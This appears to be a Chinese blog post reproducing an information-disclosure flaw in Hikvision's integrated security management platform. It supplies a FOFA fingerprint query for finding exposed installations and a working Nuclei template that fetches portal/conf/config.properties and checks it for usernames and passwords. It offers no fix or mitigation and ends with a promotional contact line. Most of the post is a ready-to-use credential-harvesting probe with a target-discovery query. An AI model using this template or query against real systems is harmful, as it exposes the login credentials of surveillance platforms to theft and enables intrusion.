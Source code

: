 # 原创
：  漏洞复现-海康威视综合安防管理平台信息泄露【附Poc】

# 漏洞复现-海康威视综合安防管理平台信息泄露【附Poc】

**目录**

[【产品介绍】](#%E3%80%90%E4%BA%A7%E5%93%81%E4%BB%8B%E7%BB%8D%E3%80%91)

[【产品系统UI】](#%E3%80%90%E4%BA%A7%E5%93%81%E7%B3%BB%E7%BB%9FUI%E3%80%91)

[【漏洞说明】](#%E3%80%90%E6%BC%8F%E6%B4%9E%E8%AF%B4%E6%98%8E%E3%80%91)

[【指纹】](#%E3%80%90%E6%8C%87%E7%BA%B9%E3%80%91)

[【Nuclei Poc】](#%E3%80%90Nuclei%20Poc%E3%80%91)

[【验证】](#%E3%80%90%E9%AA%8C%E8%AF%81%E3%80%91)

---


### 【产品介绍】

海康威视（Hikvision）是一家总部位于中国杭州的公司，是全球最大的视频监控产品供应商。除了传统的CCTV摄像机和网络摄像机，海康威视还提供各种相关的安防产品和解决方案。他们的综合安防管理平台为用户提供了一站式的解决方案，包括视频监控、入侵检测、访客管理、停车场管理等。

### 【产品系统UI】

### 【漏洞说明】

海康威视综合安防平台portal/conf/config.properties接口存在敏感信息泄露

### 【指纹】

app=”HIKVISION-综合安防管理平台”

### 【Nuclei Poc】

```
id: hikvision-information

info:
  name: hikvision-information
  author: xxx
  severity: info
  description: 
  metadata:
    fofa-query: app="HIKVISION-综合安防管理平台"

requests:
  - method: GET
    path:
      - "{{BaseURL}}portal/conf/config.properties"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '@bic'
          - 'username'
          - 'password'                    
      - type: status
        status:
          - 200

```

### 【验证】

点赞+在看支持一下吧~感谢看官老爷~ 

 [+V【zkaq222】或者下面的扫码不然通不过哦，免费领取安全学习资料包！（私聊进群一起学习，共同进步）腾讯文档-在线文档<img alt="icon-default.png?t=N7T8" src="https://csdnimg.cn/release/blog_editor_html/release2.3.6/ckeditor/plugins/CsdnLink/icons/icon-default.png?t=N7T8"/>https://docs.qq.com/doc/DYmVETWlZemh0Ymdv](https://docs.qq.com/doc/DYmVETWlZemh0Ymdv)
